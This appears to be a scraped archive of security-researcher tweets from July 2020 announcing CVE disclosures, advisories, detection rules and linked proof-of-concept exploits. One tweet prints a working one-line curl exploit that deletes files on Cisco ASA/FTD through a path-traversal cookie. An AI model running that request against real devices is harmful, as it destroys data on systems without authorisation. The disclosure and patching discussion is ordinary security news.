# PentesterLab
**https://twitter.com/PentesterLab/status/1287981604787240960 _at 2020-07-28, 05:21:58_**
<blockquote>
Two new videos are now available on how to exploit CVE-2020-8163 - A RCE in Ruby-on-Rails: 

https://t.co/BY9XZEnM3i
</blockquote>

* https://pentesterlab.com/exercises/CVE-2020-8163/videos

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1287351763511607296 _at 2020-07-26, 11:39:12_**
<blockquote>
RT @maxpl0it: SIGRed (CVE-2020-1350) DoS proof-of-concept
https://t.co/Pu1i0vh0M4

Have fun!
</blockquote>

* https://github.com/maxpl0it/CVE-2020-1350-DoS

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>323</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# _murks
**https://twitter.com/_murks/status/1287328429680074752 _at 2020-07-26, 10:06:29_**
<blockquote>
Just found out @pwntester took a look at the Nexus Repository Manager vulnerability (CVE-2018-16621) @_schn31d4 and I reported and found a bypass for the fix (https://t.co/OW9I0DTVlv).  He also used CodeQL to perform a Variant Analysis and found more bugs: https://t.co/IQVip2qxM6
</blockquote>

* https://securitylab.github.com/advisories/GHSL-2020-015-nxrm-sonatype
* https://securitylab.github.com/research/bean-validation-RCE

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# peterjson
**https://twitter.com/peterjson/status/1286933921385480192 _at 2020-07-25, 07:58:51_**
<blockquote>
Recently I found a gadget chain that can turn AMF deserialize into Java Deserialize to exploit CVE-2020-2950 in a reliable way that can read cmd's output via HTTP Response !

https://t.co/y3d6jV1a1x
</blockquote>

* https://medium.com/@peterjson/cve-2020-2950-turning-amf-deserialize-bug-to-java-deserialize-bug-2984a8542b6f

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>108</code></td>
<td>Favorites: <code>222</code></td>
</tr></table>

---

# jedisct1
**https://twitter.com/jedisct1/status/1286868630194528256 _at 2020-07-25, 03:39:24_**
<blockquote>
RT @aboul3la: Ok, as many people requested, here is the POC of CVE-2020-3187 - unauthenticated arbitrary file deletion in Cisco ASA/FTD.

E…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>358</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# aboul3la
**https://twitter.com/aboul3la/status/1286809567989575685 _at 2020-07-24, 23:44:43_**
<blockquote>
Ok, as many people requested, here is the POC of CVE-2020-3187 - unauthenticated arbitrary file deletion in Cisco ASA/FTD.

Example to delete logo file "/+CSCOU+/csco_logo.gif".

POC:
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://target/+CSCOE+/session_password.html https://t.co/BFbDAI9mX2
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>18</code></td>
<td>Retweets: <code>358</code></td>
<td>Favorites: <code>892</code></td>
</tr></table>

---

# jedisct1
**https://twitter.com/jedisct1/status/1286574848374906881 _at 2020-07-24, 08:12:01_**
<blockquote>
RT @Cognosec: Our researcher wrote a NMAP script for CVE-2020-3452. Patch your Cisco (ASA/FTD) ASAP.
https://t.co/HO1r1QvW8F
#infosec #cisc…
</blockquote>

* https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-3452.nse

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# NOTwetw0rk
**https://twitter.com/NOTwetw0rk/status/1286419238534643712 _at 2020-07-23, 21:53:41_**
<blockquote>
I just released my #0day research on the Nimbus protocol. Including exploit code for CVE-2020-8010, CVE-2020-8011, and CVE-2020-8012. Check it out here:

https://t.co/ZJntzOKK7H
</blockquote>

* https://github.com/wetw0rk/CA-UIM-Nimbus-Research

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>115</code></td>
</tr></table>

---

# zeroSteiner
**https://twitter.com/zeroSteiner/status/1286337542254735365 _at 2020-07-23, 16:29:03_**
<blockquote>
Exploit for SAP "RECON" (CVE-2020-6287) just landed to @Metasploit https://t.co/PxTWjwMvXp Allows an unauthenticated remote user to create a new SAP Administrator
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/13852

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# Cognosec
**https://twitter.com/Cognosec/status/1286178945159901185 _at 2020-07-23, 05:58:51_**
<blockquote>
Our researcher wrote a NMAP script for CVE-2020-3452. Patch your Cisco (ASA/FTD) ASAP.
https://t.co/HO1r1QvW8F
#infosec #cisco https://t.co/CBpMsjwzGk
</blockquote>

* https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-3452.nse

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---

# ducnt_
**https://twitter.com/ducnt_/status/1285286454910844928 _at 2020-07-20, 18:52:24_**
<blockquote>
So, here is a gift for you about CVE-2020-6287 SAP RCE exploit :). 
Only user create, no more administrator permission set. 😄

https://t.co/9eXHQF2x3u https://t.co/W5Gp2tEhBI
</blockquote>

* https://github.com/duc-nt/CVE-2020-6287-exploit

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>195</code></td>
<td>Favorites: <code>453</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1285257596501295104 _at 2020-07-20, 16:57:44_**
<blockquote>
Details and PoC released for a critical remote code execution #vulnerability (CVE-2020-1147) affecting SharePoint Servers that #Microsoft patched just last week with the release of July 2020 Patch Tuesday updates.

https://t.co/LpY241r8XE

via @sourceincite
</blockquote>

* https://srcincite.io/blog/2020/07/20/sharepoint-and-pwn-remote-code-execution-against-sharepoint-server-abusing-dataset.html

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>148</code></td>
<td>Favorites: <code>255</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1285225452454502405 _at 2020-07-20, 14:50:00_**
<blockquote>
SharePoint and Pwn :: Remote Code Execution Against SharePoint Server Abusing DataSet: https://t.co/NiUeuy8oZu

CVE-2020-1147 full analysis and exploit :-&gt;
</blockquote>

* https://srcincite.io/blog/2020/07/20/sharepoint-and-pwn-remote-code-execution-against-sharepoint-server-abusing-dataset.html

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>317</code></td>
<td>Favorites: <code>608</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1284500014631460865 _at 2020-07-18, 14:47:23_**
<blockquote>
CVE-2020-15504：Sophos XG RCE
https://t.co/BLl0xeNajz https://t.co/Xrd45foUxI
</blockquote>

* https://www.anquanke.com/post/id/210817

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>63</code></td>
<td>Favorites: <code>139</code></td>
</tr></table>

---

# BlackBerry
**https://twitter.com/BlackBerry/status/1284488415753277442 _at 2020-07-18, 14:01:17_**
<blockquote>
Get BlackBerry's detailed analysis of the F5 Big-IP TMUI RCE vulnerability (CVE-2020-5902): https://t.co/Fr0KqHY8GS https://t.co/Ht9Qh0es85
</blockquote>

* https://bit.ly/32vMXhH

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1284368076268601349 _at 2020-07-18, 06:03:06_**
<blockquote>
Exploiting an Elevation of Privilege bug in Windows 10 (CVE-2020-1362)  https://t.co/qAI7b3tPEa  #Windows10 #Exploit #CVE #BugBounty #Infosec https://t.co/5cyMCmGrbQ
</blockquote>

* https://github.com/Q4n/CVE-2020-1362

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>97</code></td>
<td>Favorites: <code>224</code></td>
</tr></table>

---

# NSACyber
**https://twitter.com/NSACyber/status/1284103583110234113 _at 2020-07-17, 12:32:06_**
<blockquote>
CVE-2020-1350 represents significant risk to Windows DNS servers. #Patch or apply the mitigation steps today, you should expect adversaries are hard at work writing exploits for this #vulnerability. Check out our detailed guidance: https://t.co/KUZT1UMEHQ https://t.co/Nlnu4E4ntg
</blockquote>

* https://media.defense.gov/2020/Jul/16/2002458198/-1/-1/0/CSA_CVE20201350-V_1_0%20-%20COPY.PDF

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>148</code></td>
<td>Favorites: <code>228</code></td>
</tr></table>

---

# cry__pto
**https://twitter.com/cry__pto/status/1284086538343714817 _at 2020-07-17, 11:24:22_**
<blockquote>
Apache Tomcat RCE by deserialization (CVE-2020-9484) – write-up and exploit:
https://t.co/LuABYgsYrI 
#Pentesting #Hacking #bugbountytips #RedTeam
</blockquote>

* https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>237</code></td>
<td>Favorites: <code>506</code></td>
</tr></table>

---

# LukasStefanko
**https://twitter.com/LukasStefanko/status/1284033488312832001 _at 2020-07-17, 07:53:34_**
<blockquote>
0-click RCE via MMS exploit for Samsung's Android OS versions O(8.x), P(9.0) and Q(10.0) #Fuzzing CVE-2020-8899
https://t.co/Qeyq7ACjoN
Demo: https://t.co/VL7eL03SrD https://t.co/ooOGpchF6c
</blockquote>

* https://googleprojectzero.blogspot.com/2020/07/mms-exploit-part-1-introduction-to-qmage.html
* https://youtu.be/ZQnb8kRMkHg

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>256</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1283702592879632385 _at 2020-07-16, 09:58:42_**
<blockquote>
CVE-2020-1300: Remote Code Execution Through Microsoft Windows Cab Files 
https://t.co/IhyNf2OVHf   #Pentesting #RCE #Window #Vulnerability #Infosec https://t.co/zdFfvIzsHs
</blockquote>

* https://www.zerodayinitiative.com/blog/2020/7/8/cve-2020-1300-remote-code-execution-through-microsoft-windows-cab-files

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>110</code></td>
</tr></table>

---

# maxpl0it
**https://twitter.com/maxpl0it/status/1283537179365564417 _at 2020-07-15, 23:01:25_**
<blockquote>
SIGRed (CVE-2020-1350) DoS proof-of-concept
https://t.co/Pu1i0vh0M4

Have fun!
</blockquote>

* https://github.com/maxpl0it/CVE-2020-1350-DoS

<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>323</code></td>
<td>Favorites: <code>634</code></td>
</tr></table>

---

# IanColdwater
**https://twitter.com/IanColdwater/status/1283481467956469763 _at 2020-07-15, 19:20:02_**
<blockquote>
New #Kubernetes CVE-2020-8559: Privilege escalation from compromised node to cluster

You are only affected by this vulnerability if you treat the node as a security boundary, or if clusters share certificate authorities and authentication credentials.

https://t.co/GoQSTpBWJG
</blockquote>

* https://github.com/kubernetes/kubernetes/issues/92914

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>66</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1283473525613838336 _at 2020-07-15, 18:48:28_**
<blockquote>
PoC for CVE-2020-6286 and CVE-2020-6287 has been published to GitHub. Patch now!
</blockquote>

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>81</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---

# maxpl0it
**https://twitter.com/maxpl0it/status/1283471692006920193 _at 2020-07-15, 18:41:11_**
<blockquote>
CVE-2020-1350 DoS

The hardest part of this was setting up domains! https://t.co/Aut92cJB5o
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>136</code></td>
<td>Favorites: <code>414</code></td>
</tr></table>

---

# straight_blast
**https://twitter.com/straight_blast/status/1283466024109527040 _at 2020-07-15, 18:18:40_**
<blockquote>
I found some bugs on Cisco SD-WAN vManage:
CVE-2020-3387 (Remote Code Execution) 
CVE-2020-3381 (Directory Traversal) 
CVE-2020-3406 (XSS) 
CVE-2020-3405 (XXE) 
CVE-2020-3437 (Info Disclosure)
CVE-2020-3401 (Path Traversal)
https://t.co/vzsn2ID5aM
</blockquote>

* https://tools.cisco.com/security/center/publicationListing.x?product=Cisco&keyword=vManage&title=vManage&last_published=2020%20Jul&sort=-day_sir#~Vulnerabilities

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---

# CyberWarship
**https://twitter.com/CyberWarship/status/1283431773137965056 _at 2020-07-15, 16:02:34_**
<blockquote>
McAfee Total Protection (MTP) &lt; 16.0.R26 Escalation of Privilege (CVE-2020-7283)

Write-up
https://t.co/NrueV9gD4J

PoC
https://t.co/FsnwbwCUtY

#infosec #pentest #redteam #exploit #lpe
</blockquote>

* https://labs.redyops.com/index.php/2020/07/14/mcafee-total-protection-mtp-16-0-r26-escalation-of-privilege-cve-2020-7283/
* https://github.com/RedyOpsResearchLabs/CVE-2020-7283-McAfee-Total-Protection-MTP-16.0.R26-EoP

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# hrbrmstr
**https://twitter.com/hrbrmstr/status/1283400078770700289 _at 2020-07-15, 13:56:37_**
<blockquote>
We've updated our CVE-2020-1350 (DNS Server RCE) blog post with some info on tooling coverage, a note abt an uptick in DNS scanning (w/nod to @GreyNoiseIO) &amp; credited info from @GossiTheDog on how to make your Windows Server DNS a bit more stealthy. https://t.co/YeSGxkfbWJ
</blockquote>

* https://blog.rapid7.com/2020/07/14/windows-dns-server-remote-code-execution-vulnerability-cve-2020-1350-what-you-need-to-know/?update=true

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# VDIHacker
**https://twitter.com/VDIHacker/status/1283358134464118784 _at 2020-07-15, 11:09:57_**
<blockquote>
If you haven’t heard yesterday a Major DNS vulnerability for Windows was found and a patch released. “CVE-2020-1350 | Windows DNS Server Remote Code Execution Vulnerability” its a 10 out of 10 aka very bad. Patch or Mitigate all Windows DNS Servers ASAP! https://t.co/Add2uA3NZv https://t.co/tAaMmnFgTO
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1350

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# gweeperx
**https://twitter.com/gweeperx/status/1283331032096411653 _at 2020-07-15, 09:22:15_**
<blockquote>
CVE-2020-7283:Exploit code and write-up for an Escalation of Privilege affecting McAfee Total Protection (MTP) &lt; 16.0.R26

https://t.co/SCepfWOT0M

#bug #McAfee #0day #exploit #vulnerability #EoP #privesc #RedyOpsLabs #redteam #pentest #cybersecurity #infosec #informationsecurity
</blockquote>

* https://labs.redyops.com/index.php/2020/07/14/mcafee-total-protection-mtp-16-0-r26-escalation-of-privilege-cve-2020-7283/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1283330388002246657 _at 2020-07-15, 09:19:42_**
<blockquote>
Sigma rule to detect the exploitation of Windows DNS RCE CVE-2020-1350

- a long shot looking for spawned sub processes of dns.exe (requires parent logging &gt; e.g. Sysmon)
- plz report false positives

https://t.co/pzJni5aCUh https://t.co/qi8g6XvqDm
</blockquote>

* https://github.com/Neo23x0/sigma/blob/master/rules/windows/process_creation/win_exploit_cve_2020_1350.yml

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>149</code></td>
<td>Favorites: <code>256</code></td>
</tr></table>

---

# PiotrBania
**https://twitter.com/PiotrBania/status/1283278150840061953 _at 2020-07-15, 05:52:07_**
<blockquote>
Some of my recent bugs: Hyper-V RemoteFX vGPU Remote Code Execution Vulnerability (CVE-2020-1032, CVE-2020-1036, CVE-2020-1040, CVE-2020-1041, CVE-2020-1042, CVE-2020-1043) - https://t.co/r9pRu5ssQH   https://t.co/IR14JuSpYp
</blockquote>

* https://portal.msrc.microsoft.com/en-us/security-guidance/releasenotedetail/2020-Jul
* https://blog.talosintelligence.com/2020/07/vuln-spotlight-intel-amd-microsoft-july-2020.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>243</code></td>
</tr></table>

---

# nnwakelam
**https://twitter.com/nnwakelam/status/1283178986185490432 _at 2020-07-14, 23:18:05_**
<blockquote>
While everyone is talking about the DNS bug that just dropped I want a PoC on CVE-2020-6287. 10.0 CVSS SAP RCE? Sounds delicious.
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>103</code></td>
</tr></table>

---

# CyberRaiju
**https://twitter.com/CyberRaiju/status/1283158591843663872 _at 2020-07-14, 21:57:02_**
<blockquote>
CVE-2020-1350: Critical wormable RCE vulnerability rated with a CVSS of 10 in Windows DNS Server. You may want to patch this ASAP or implement the mitigation. 

MSRC Blog:
https://t.co/yRclM8eGm5

Advisory:
https://t.co/OEvqWjmhgU

Guidance:
https://t.co/Smj1iQnfPh https://t.co/GdFgYmF7kC
</blockquote>

* https://msrc-blog.microsoft.com/2020/07/14/july-2020-security-update-cve-2020-1350-vulnerability-in-windows-domain-name-system-dns-server/
* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1350
* https://support.microsoft.com/en-us/help/4569509/windows-dns-server-remote-code-execution-vulnerability

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# blueteamblog
**https://twitter.com/blueteamblog/status/1283135082514046977 _at 2020-07-14, 20:23:37_**
<blockquote>
This is so, so bad.
CVE-2020-1350 with CVSS of 10 named #SIGRed. Wormable RCE vulnerability in Windows DNS Server affecting all versions of Windows server running the DNS role. https://t.co/xYTzi72hF5

Exploit released already - https://t.co/9qphFRaqBR 

#infosec #cybersecurity
</blockquote>

* https://msrc-blog.microsoft.com/2020/07/14/july-2020-security-update-cve-2020-1350-vulnerability-in-windows-domain-name-system-dns-server/
* https://github.com/ZephrFish/CVE-2020-1350

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>63</code></td>
</tr></table>

---

# RandomDhiraj
**https://twitter.com/RandomDhiraj/status/1283127822870024192 _at 2020-07-14, 19:54:46_**
<blockquote>
One of my MS Office vulnerability was patched in July.

CVE-2020-1458 | Microsoft Office Remote Code Execution Vulnerability
https://t.co/xCeVITvjDT
#infosec
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1458

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---

# ducnt_
**https://twitter.com/ducnt_/status/1283120193405718530 _at 2020-07-14, 19:24:27_**
<blockquote>
Just stumbleupon with a RCE PoC of CVE-2020-6287 SAP NetWeaver AS JAVA. Kudos to @Queseguridad with an awesome work 🍻. #bugbountytip https://t.co/K7ACNu8z4B
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# antoniosanzalc
**https://twitter.com/antoniosanzalc/status/1283118272578236416 _at 2020-07-14, 19:16:50_**
<blockquote>
Vuln. crítica en los DNS de Windows, CVE-2020-1350: https://t.co/hKlaHJM02T CVSS 10.0 (máximo). RCE wormable, con el agravante de que el 99% d los DNS son los DC. 1 PC, 1 correo malicioso, 1 exploit ... y Game Over. Aplica esta mitigación YA https://t.co/XMryJtYWBc y parchea ASAP
</blockquote>

* https://support.microsoft.com/es-es/help/4569509/windows-dns-server-remote-code-execution-vulnerability
* https://support.microsoft.com/en-us/help/4569509/windows-dns-server-remote-code-execution-vulnerability

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---

# cherepanov74
**https://twitter.com/cherepanov74/status/1283115324439748608 _at 2020-07-14, 19:05:07_**
<blockquote>
RT @_CPResearch_: We discovered a 17-year-old vulnerability in all of Windows DNS Servers.
SIGRed (CVE-2020-1350) is a wormable, critical v…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>813</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# sagitz_
**https://twitter.com/sagitz_/status/1283114958612561921 _at 2020-07-14, 19:03:39_**
<blockquote>
CVE-2020-1350: A cool Windows DNS Server vulnerability (2003-&gt;2019) we found at @_CPResearch_
and got patched today #PatchTuesday
https://t.co/OapPwEYPvp
</blockquote>

* https://research.checkpoint.com/2020/resolving-your-way-into-domain-admin-exploiting-a-17-year-old-bug-in-windows-dns-servers/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>131</code></td>
</tr></table>

---

# _CPResearch_
**https://twitter.com/_CPResearch_/status/1283114016999706624 _at 2020-07-14, 18:59:55_**
<blockquote>
We discovered a 17-year-old vulnerability in all of Windows DNS Servers.
SIGRed (CVE-2020-1350) is a wormable, critical vulnerability that can be used to achieve full Domain Administrator privileges.
https://t.co/giebs7WIhp
</blockquote>

* https://research.checkpoint.com/2020/resolving-your-way-into-domain-admin-exploiting-a-17-year-old-bug-in-windows-dns-servers/

<table><tr>
<td>Quotes: <code>57</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>771</code></td>
<td>Favorites: <code>1188</code></td>
</tr></table>

---

# omriher
**https://twitter.com/omriher/status/1283113889270509570 _at 2020-07-14, 18:59:24_**
<blockquote>
We just disclosed SIGRed (CVE-2020-1350): Critical Vulnerability in all Windows DNS Servers (by @sagitz_).

Bonus: can also be triggered using the browser through a malicious link. #SIGRed
https://t.co/MMnjPwIUAp
</blockquote>

* https://research.checkpoint.com/2020/resolving-your-way-into-domain-admin-exploiting-a-17-year-old-bug-in-windows-dns-servers/

<table><tr>
<td>Quotes: <code>40</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>278</code></td>
<td>Favorites: <code>440</code></td>
</tr></table>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1283107131596722176 _at 2020-07-14, 18:32:33_**
<blockquote>
Microsoft has released an update addressing a “wormable” RCE vulnerability, CVE-2020-1350, in Windows DNS Server. Update asap! https://t.co/yjvpIgZbA3 #Cybersecurity #InfoSec
</blockquote>

* https://us-cert.cisa.gov/ncas/current-activity/2020/07/14/microsoft-addresses-wormable-rce-vulnerability-windows-dns-server#Cyber

<table><tr>
<td>Quotes: <code>29</code></td>
<td>Replies: <code>23</code></td>
<td>Retweets: <code>422</code></td>
<td>Favorites: <code>567</code></td>
</tr></table>

---

# jarsnah12
**https://twitter.com/jarsnah12/status/1283099208946462720 _at 2020-07-14, 18:01:04_**
<blockquote>
CVE-2020-1350 https://t.co/rAIOfxMSQb
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>27</code></td>
<td>Replies: <code>22</code></td>
<td>Retweets: <code>690</code></td>
<td>Favorites: <code>2382</code></td>
</tr></table>

---

# _CPResearch_
**https://twitter.com/_CPResearch_/status/1283087717174214664 _at 2020-07-14, 17:15:25_**
<blockquote>
Stay tuned for our technical publication regarding #SIGRed (CVE-2020-1350) at 12 (PST) - Critical vulnerability in Windows DNS
</blockquote>

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>84</code></td>
<td>Favorites: <code>168</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1283087444015935489 _at 2020-07-14, 17:14:19_**
<blockquote>
WARNING 🔥 CVE-2020-1350 (CVSS 10)

A critical 17-year-old 'wormable' RCE #vulnerability affects Windows DNS Servers (2013 to 2019 editions) that could let unauthenticated hackers gain 'Domain Admin' privileges on the targeted servers.

Details — https://t.co/Qoode1dizp

#infosec https://t.co/MWddwPytbT
</blockquote>

* https://thehackernews.com/2020/07/windows-dns-server-hacking.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>58</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>571</code></td>
<td>Favorites: <code>756</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1282927157006622720 _at 2020-07-14, 06:37:24_**
<blockquote>
Windows Defender CVE-2020-1170 LPE Work Archive · GitHub - https://t.co/RPiiGF1kFU
</blockquote>

* https://gist.github.com/gwillcox-r7/419efc54568ae809eaf47843f058cadb

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---

# _r_netsec
**https://twitter.com/_r_netsec/status/1282403888658673664 _at 2020-07-12, 19:58:07_**
<blockquote>
Understanding the root cause of F5 Networks K52145254: TMUI RCE vulnerability CVE-2020-5902 https://t.co/BnyJaPt2Rl
</blockquote>

* https://research.nccgroup.com/2020/07/12/understanding-the-root-cause-of-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>72</code></td>
</tr></table>

---

# NCCGroupInfosec
**https://twitter.com/NCCGroupInfosec/status/1282392029008404482 _at 2020-07-12, 19:11:00_**
<blockquote>
Understanding the root cause of F5 Networks K52145254: TMUI RCE vulnerability CVE-2020-5902 - spoiler: there will be more of this class to be found elsewhere - https://t.co/JXmJEZ2DYp https://t.co/IXNKtVHFWP
</blockquote>

* https://research.nccgroup.com/2020/07/12/understanding-the-root-cause-of-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>149</code></td>
</tr></table>

---

# jedisct1
**https://twitter.com/jedisct1/status/1282261016559136770 _at 2020-07-12, 10:30:24_**
<blockquote>
RT @ArielKoren_: Found a Remote Code Execution #Exploit on #Microsoft #Office (CVE-2020-1321) during my consulting services.

The vulnerabi…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>214</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# 0xArielK
**https://twitter.com/0xArielK/status/1281982660152352769 _at 2020-07-11, 16:04:18_**
<blockquote>
Found a Remote Code Execution #Exploit on #Microsoft #Office (CVE-2020-1321) during my consulting services.

The vulnerability is triggered while parsing 3D objects and potentially affects a wide variety of Microsoft products.

https://t.co/jsSOzaVYxI

#RCE #CVE
</blockquote>

* https://www.mimecast.com/blog/2020/07/mimecast-discovers-3d-office-exploiter-a-remote-code-execution-vulnerability-in-microsoft-office/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>190</code></td>
<td>Favorites: <code>422</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1281623377199783937 _at 2020-07-10, 16:16:39_**
<blockquote>
RT @RandomDhiraj: A quick NMAP script for CVE-2020-5902.
